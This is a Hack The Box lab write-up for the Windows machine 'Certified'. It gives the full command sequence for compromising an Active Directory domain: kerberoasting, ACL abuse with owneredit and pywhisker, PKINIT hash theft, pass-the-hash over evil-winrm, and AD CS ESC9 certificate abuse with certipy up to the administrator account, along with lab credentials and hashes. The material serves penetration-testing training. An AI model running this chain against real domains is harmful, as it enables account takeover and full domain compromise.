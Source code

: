 ```yaml
---
date: 2025-03-15
categories: [Windows, Medium]
---
```


![Certified](https://labs.hackthebox.com/storage/avatars/28b71ec11bb839b5b58bdfc555006816.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [ruycr4ft](https://app.hackthebox.com/users/1253217)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---







- I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
	
	```python
	nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.41 -oG scan
	nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49668,49673,49674,49683,49713,49737,49770 -sCV -Pn 10.10.11.41 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/8d123dcc-0bf9-45c7-bd74-8f735a1b25e7)

- I have access via smb to the IPC$ folder and thanks to that I am able to enumerate the system
	
	```python
	netexec smb 10.10.11.41 -u judith.mader -p judith09 --shares
	```
	
	![image](https://github.com/user-attachments/assets/5d6103f5-c05a-4a54-bce8-922e14759b0c)
	
	```python
	netexec ldap 10.10.11.41 -u judith.mader -p judith09  --bloodhound --collection All --dns-server 10.10.11.41
	```
	
	![image](https://github.com/user-attachments/assets/1c8ff1e7-fdf8-4a9c-9b80-d83a37999f43)

- Before analyzing with bloodhound, I see on which user I can request a TGS as I have valid credentials.
	
	![image](https://github.com/user-attachments/assets/bb181db5-abfe-49f1-bc41-59e086f1b611)
	
	```python
	rdate -n 10.10.11.41; impacket-GetUserSPNs certified.htb/judith.mader:judith09 -request
	```
	
  ![image](https://github.com/user-attachments/assets/085eab0b-66a0-4157-aa2b-b402fda53518)

- I can request it from the management_SVC user and sometimes I can break it and get his password. After completing the whole machine I understand why I can sometimes break the TGS and sometimes not. As this is not the intended way to complete the machine I am not going to follow up on this point

- Analyzing with bloodhound I see that I have “WriteOwner” permission on the management group and then it has “GenericWrite” permission on the management_svc user.
- Thanks to the first one I can change the owner of the object and with the second one I can change the user's password without knowing the current one.
	
	![image](https://github.com/user-attachments/assets/103cdac0-6619-4abc-971d-3a7fce639653)

- I start by adding the user judith.mader to the management group with owneredit from impacket
	
	```python
	owneredit.py -action write -new-owner 'judith.mader' -target-dn 'CN=management,CN=Users,DC=certified,DC=htb' 'certified.htb'/'judith.mader':'judith09' -dc-ip 10.10.11.41
	```
	
	![image](https://github.com/user-attachments/assets/fe7f5f40-3204-4942-8245-21daa2dcae99)

- With this I get the user's ticket but I am not able to get his password in clear text.
	
	```python
	rdate -n 10.10.11.41; ./targetedKerberoast.py --dc-ip '10.10.11.41' -v -d 'certified.htb' -u 'judith.mader' -p 'judith09'
	```

- By observing that judith has “Owns” and “WriteOwner” permissions on the group managements, and this group has “GenericWrite” permission on the user Management_svc. We can first become a member of the group and get the user's hash. This is known as Kerberos PKINIT.
	
	```python
	pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"  --filename test1
	#request a Ticket-Granting-Ticket (TGT) for the domain controller
	./gettgtpkini.py -cert-pfx test1.pfx -pfx-pass  4l99njREI8ehV7aLoA7a certified.htb/Management_svc Management_svc.ccache
	#set the KRB5CCNAME environment variable,
	export KRB5CCNAME=Management_svc.ccache
	#Using the tool `getnthash.py` from PKINITtools we could request the NT hash for our target host/user by using Kerberos U2U to submit a TGS request with the [Privileged Attribute Certificate (PAC)]which contains the NT hash for the target. This can be decrypted with the AS-REP encryption key we obtained when requesting the TGT earlier.
	rdate -n 10.10.11.41; ./getnthash.py -key d85b3ba5fcb9c40d666dd6c4d7413c9273276f039ea2342d32dff2723ad291a1 certified.htb/Management_svc
	```

	![image](https://github.com/user-attachments/assets/68b9d489-cd19-43e4-9fe5-069a401b7445)

- Having already the hash of the user management_svc, I comment myself on WinRM and I manage to read the first flag.

  ```python
  evil-winrm -i 10.10.11.41 -u Management_svc -H a091XXXXXXXXXXXXXXXXXX584
  ```
  
  ![image](https://github.com/user-attachments/assets/c578fb13-5f77-4fd6-83ec-8563ff0b6f27)

- Having the credentials of this user, we can move laterally to the ca_operatos user by changing its password.
- By having “GenerilcAll” permission on the user ca_operator, I can set the user's password without knowing the current password.
	
	![image](https://github.com/user-attachments/assets/86c77825-2995-4179-a06a-cd6015b7b0bd)
	
	```python
	pth-net rpc password "ca_operator" "newP@ssword2022" -U certified.htb/management_svc%"a091c1832bcdd4677c28b5a6a1295584":"a091c1832bcdd4677c28b5a6a1295584" -S dc01.certified.htb
	
	crackmapexec smb 10.10.11.41 -u 'ca_operator' -p 'newP@ssword2022'
	```
	
	![image](https://github.com/user-attachments/assets/f6a98474-e227-408b-8c0d-dc51314a4902)

- With these credentials we enumerate the system in order to add the certificate part to bloodhound.
		
	```python
	rdate -n 10.10.11.41; certipy-ad req -u ca_operator@certified.htb -p newP@ssword2022 -dc-ip 10.10.11.41  -ca certified-DC01-CA -target certified.htb -template User
	crackpkcs12 -d /usr/share/wordlists/rockyou.txt ca_operator.pfx -t 25
	
	#Downlaod the fork version of bloodhound
	rdate -n 10.10.11.41; certipy-ad find -u ca_operator@certified.htb -p newP@ssword2022 -dc-ip 10.10.11.41 -old-bloodhound
	```

- With the certipy tool I search for any vulnerability in the certificate. It tells me that it may be vulnerable to ESC9 
- With the “find” option you can list AD CS certificate templates, certificate authorities and other settings
	
	```python
	certipy-ad find -u ca_operator -p 'newP@ssword2022' -dc-ip 10.10.11.41 -stdout -enabled -vulnerable
	```
	
	![image](https://github.com/user-attachments/assets/c195d5d0-9d81-424c-a234-ac6432afc12f)

- To exploit this vulnerability I get help from this [page](https://adminions.ca/books/adcs-abusing-active-directory-certificate-service/page/esc9) that tells me the steps to execute.

	```python
	rdate -n 10.10.11.41; certipy-ad shadow auto -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -account ca_operator
	
	certipy-ad account update -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -user ca_operator -upn administrator
	
	
	certipy-ad req -username "ca_operator@certified.htb" -hashes "01794af19fd00af4f2528923c4ef08be" -target "certified.htb" -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'    
	
	certipy-ad account update -username "management_svc@certified.htb" -hashes "a091c1832bcdd4677c28b5a6a1295584" -user ca_operator -upn "ca_operator@certified.htb" 
	
	
	rdate -n 10.10.11.41; certipy-ad auth -pfx  ca_operator.pfx -domain certified.htb
	```
	
	![image](https://github.com/user-attachments/assets/c856df00-a05f-4b7d-95d5-b586bf2b1e65)

	![image](https://github.com/user-attachments/assets/7774205b-0468-4bb0-9aca-b1d54bd61dd5)

- After validating and confirming that the ntlm hash is correct for the administrator user, I connect to the system and get to read the second flag
	
	```python
	 evil-winrm -i 10.10.11.41 -u administrator -H "0d5bXXXXXXXXXXXXXXXXXX2d34"
	```
